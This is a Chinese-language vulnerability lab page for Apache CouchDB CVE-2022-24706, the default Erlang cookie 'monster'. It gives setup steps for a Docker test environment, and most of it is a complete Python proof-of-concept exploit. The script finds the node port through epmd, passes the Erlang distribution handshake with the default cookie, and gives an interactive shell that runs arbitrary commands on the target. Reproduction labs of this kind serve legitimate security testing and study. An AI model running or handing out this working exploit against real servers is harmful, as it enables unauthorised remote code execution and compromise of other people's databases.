 # Apache CouchDB 分布式协议代码执行 CVE-2022-24706

Apache CouchDB是一个Erlang开发的NoSQL数据库。

由于Erlang的特性，其支持分布式计算，分布式节点之间通过Erlang/OTP Distribution协议进行通信。攻击者如果知道通信时使用的Cookie，即可在握手包通过认证并执行任意命令。

在CouchDB 3.2.1及以前版本中，使用了默认Cookie，值为“monster”。

参考链接：

- https://docs.couchdb.org/en/3.2.2-docs/cve/2022-24706.html
- https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/
- https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/misc/erlang_cookie_rce.rb
- https://github.com/sadshade/CVE-2022-24706-CouchDB-Exploit

## 漏洞环境

Vulhub执行如下命令启动一个Apache CouchDB 3.2.1服务：

```
docker-compose up -d
```

服务启动后，会监听三个端口：

- 5984: Apache CouchDB Web管理接口
- 4369: Erlang端口映射服务（epmd）
- 9100: 集群节点通信和运行时自省服务（代码执行实际发生在这个端口中）

其中，Web管理接口和epmd服务端口是固定的，而集群通信接口在Vulhub中是9100。实际环境下，这个端口通常是随机的，我们可以通过epmd服务来获取这个端口的数值。

## 漏洞复现

我们可以使用[这个POC](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2022-24706/poc.py)来利用本漏洞。这个POC会先通过目标的4369端口epmd服务获取集群通信的端口，也就是9100，然后再使用默认Cookie来控制节点执行任意命令。

```
python poc.py target-ip 4369
```

![image-20221125163205330](images/202211251632392.png)

## 漏洞POC

- https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2022-24706/poc.py

```python
# Exploit Title: Remote Command Execution via Erlang Distribution Protocol 
# Date: 2022-01-21
# Exploit Author: Konstantin Burov, @_sadshade
# Software Link: https://www.erlang.org/doc/apps/erts/erl_dist_protocol.html
# Version: N/A
# Tested on: Kali 2021.2
# Based on 1F98D's Erlang Cookie - Remote Code Execution
# Shodan: port:4369 "name "
# References:
#  https://www.exploit-db.com/exploits/49418
#  https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/
#  https://book.hacktricks.xyz/pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd#erlang-cookie-rce
# 
#
#!/usr/local/bin/python3

import socket
from hashlib import md5
import struct
import sys
import re
import time

TARGET = sys.argv[1]
EPMD_PORT = int(sys.argv[2]) # Default Erlang distributed port
COOKIE = "monster" # Default Erlang cookie for CouchDB 
ERLNAG_PORT = 0
EPM_NAME_CMD = b"\x00\x01\x6e" # Request for nodes list

# Some data:
NAME_MSG  = b"\x00\x15n\x00\x05\x00\x07\x49\x9cAAAAAA@AAAAAAA"
CHALLENGE_REPLY = b"\x00\x15r\x01\x02\x03\x04"
CTRL_DATA  = b"\x83h\x04a\x06gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03"
CTRL_DATA += b"\x00\x00\x00\x00\x00w\x00w\x03rex"


def compile_cmd(CMD):
    MSG  = b"\x83h\x02gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03\x00\x00\x00"
    MSG += b"\x00\x00h\x05w\x04callw\x02osw\x03cmdl\x00\x00\x00\x01k"
    MSG += struct.pack(">H", len(CMD))
    MSG += bytes(CMD, 'ascii')
    MSG += b'jw\x04user'
    PAYLOAD = b'\x70' + CTRL_DATA + MSG
    PAYLOAD = struct.pack('!I', len(PAYLOAD)) + PAYLOAD
    return PAYLOAD

print("Remote Command Execution via Erlang Distribution Protocol.\n")

# Connect to EPMD:
try:
    epm_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    epm_socket.connect((TARGET, EPMD_PORT))
except socket.error as msg:
    print("Couldnt connect to EPMD: %s\n terminating program" % msg)
    sys.exit(1)
    
epm_socket.send(EPM_NAME_CMD) #request Erlang nodes
if epm_socket.recv(4) == b'\x00\x00\x11\x11': # OK
    data = epm_socket.recv(1024)
    data = data[0:len(data) - 1].decode('ascii')
    data = data.split("\n")
    if len(data) == 1:
        choise = 1
        print("Found " + data[0])
    else:
        print("\nMore than one node found, choose which one to use:")
        line_number = 0
        for line in data:
            line_number += 1
            print(" %d) %s" %(line_number, line))
        choise = int(input("\n> "))
        
    ERLNAG_PORT = int(re.search("\d+$",data[choise - 1])[0])
else:
    print("Node list request error, exiting")
    sys.exit(1)
epm_socket.close()

# Connect to Erlang port:
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET, ERLNAG_PORT))
except socket.error as msg:
    print("Couldnt connect to Erlang server: %s\n terminating program" % msg)
    sys.exit(1)
   
s.send(NAME_MSG)
s.recv(5)
challenge = s.recv(1024)     # Receive "challenge" message
print(challenge)
challenge = struct.unpack(">I", challenge[9:13])[0]

#print("Extracted challenge: {}".format(challenge))

# Add Challenge Digest
CHALLENGE_REPLY += md5(bytes(COOKIE, "ascii")
    + bytes(str(challenge), "ascii")).digest()
s.send(CHALLENGE_REPLY)
CHALLENGE_RESPONSE = s.recv(1024)

if len(CHALLENGE_RESPONSE) == 0:
    print("Authentication failed, exiting")
    sys.exit(1)

print("Authentication successful")
print("Enter command:\n")

data_size = 0
while True:
    if data_size <= 0:
        CMD = input("> ")
        if not CMD:
            continue
        elif CMD == "exit":
            sys.exit(0)
        s.send(compile_cmd(CMD))
        data_size = struct.unpack(">I", s.recv(4))[0] # Get data size
        s.recv(45)              # Control message
        data_size -= 45         # Data size without control message
        time.sleep(0.1)
    elif data_size < 1024:        
        data = s.recv(data_size)
        #print("S---data_size: %d, data_recv_size: %d" %(data_size,len(data)))
        time.sleep(0.1)
        print(data[3:].decode())
        data_size = 0
    else:        
        data = s.recv(1024)
        #print("L---data_size: %d, data_recv_size: %d" %(data_size,len(data)))
        time.sleep(0.1)
        print(data[4:].decode())
        data_size -= 1024
```

